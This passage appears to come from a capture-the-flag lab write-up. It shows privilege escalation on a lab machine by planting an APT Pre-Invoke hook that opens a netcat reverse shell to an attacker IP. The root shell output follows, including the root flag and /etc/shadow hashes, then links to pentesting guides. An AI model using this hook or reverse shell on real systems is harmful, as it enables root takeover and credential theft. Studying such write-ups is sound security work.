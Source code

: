 ```bash
john@writer:/etc/apt/apt.conf.d$ cat 15update-stamp 
APT::Update::Post-Invoke-Success {"touch /var/lib/apt/periodic/update-success-stamp 2>/dev/null || true";};
john@writer:/etc/apt/apt.conf.d$ echo 'APT::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4488 >/tmp/f";};' > pwn
```

Wait a few seconds and we'll get a root shell.

```bash
┌──(void㉿void)-[~/Documents/scanners/linux]
└─$ nc -lvnp 4488                                                                                                                 1 ⨯
listening on [any] 4488 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.101] 52798
/bin/sh: 0: can't access tty; job control turned off
# id && hostname
uid=0(root) gid=0(root) groups=0(root)
writer
# cat /root/root.txt
f77d661fda2c7db3f5e3f04f17a64490

# cat /etc/shadow
root:$6$gev1Op0YfgboE7iR$iMNbP.8qic/SzTr4atxwLbkI7nScyZWJPbTgoXAlEz5Hcw3Ntget9j3p.iccPcw5Jl4dj4bHWZ5LvoLLNC8iB.:18816:0:99999:7:::
kyle:$6$Rke6Q45ycHoY4Ubp$5mG3iCMK/tnLRjVXQupFh0IJAz7TcBrLJl8DZqOnboZMnOaHTM3lOxacYj3zVcR1MJ8EeSZxuAdETDlldpw7p1:18765:0:99999:7:::
john:$6$jnLfY8nfX7rgN0kn$gy5CL/IZikTiLcBZVHVEu5Kl/imxKmSvooN1JjohPjVLIygTts8HNaLRAEr7zoaCk7/pb9jzKBbgBSEdxwknj0:18761:0:99999:7:::
mysql:!:18762:0:99999:7:::
```

----------------------------------------------------------------

# REFERENSES

__SQL Injection:__
- https://medium.com/@Kan1shka9/pentesterlab-from-sql-injection-to-shell-walkthrough-7b70cd540bc8
- https://asdqw3.medium.com/remote-image-upload-leads-to-rce-inject-malicious-code-to-php-gd-image-90e1e8b2aada

__Postfix:__
- https://book.hacktricks.xyz/pentesting/pentesting-smtp#postfix

__APT Reverse Shell:__
- https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/